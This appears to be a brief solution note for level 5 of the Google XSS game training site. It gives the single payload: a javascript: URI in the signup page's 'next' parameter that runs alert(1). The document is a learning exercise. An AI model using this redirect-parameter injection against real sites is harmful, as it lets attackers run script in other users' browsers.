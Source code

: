 #  Level 5: Breaking protocol - [Click](https://xss-game.appspot.com/level5)

**Payload:** https://xss-game.appspot.com/level5/frame/signup?next=javascript:alert(1)
